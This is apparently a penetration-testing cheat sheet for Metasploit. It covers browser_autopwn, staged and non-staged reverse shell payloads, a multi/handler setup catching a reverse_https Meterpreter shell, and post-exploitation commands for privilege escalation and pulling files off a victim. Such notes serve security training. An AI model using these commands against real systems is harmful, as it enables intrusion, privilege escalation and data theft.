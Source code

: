 ```bash
msf > use auxiliary/server/browser_autopwn
```

Any connection to our system will get an arsenal of exploits thrown at it

---

## Metasploit Payloads

- **staged**:
Is a payload that is sent in two parts, a fist small payload which cause the victim to connect back to attacker, and a second payload containing the rest of the shellcode.
`windows/shell/reverse_tcp` Connect back to attacker, spawn cmd shell (staged)
This kind of payload often bypass AV because are divided into different parts

- **non-staged**:
Is a payload that is sent in its entirety in one shot.
`windows/shell_reverse_tcp` - Connect back to attacker and spawn a command shell

---

## Metasploit Exploit Multi Handler

It is a framework to correctly manage all kind of payloads and connections.

```shell
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set LHOST 10.11.0.4
LHOST => 10.11.0.4
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > exploit

```

`msf5 > exploit -j -z`: allows to run the command as background job (`-j`) and to stop to automatically interacting with the session (`-z`)
`msf5 > jobs`: allows to list all the active jobs and obtain information about specific one (`-i <id>`)
`msf5 > kill <id>`: kill the selected job
`msf5 > sessions`: list all the active sessions and allow to switch to a specific one (`-i <id>`)

---

## Post Exploitation with Meterpreter

### Meterpreter post-exploitation commands

| Command | Effect |
| --- | --- |
| ? | List all possible commands |
| getuid | Find the user owner of the process |
| getpid | Get the process ID of the user |
| arp | Show ARP detail |
| getsystem | Privilege escalation of the system |
| file_collector | find and download certain types of files in the remote machine to our machine |
| sysinfo | General info about the system |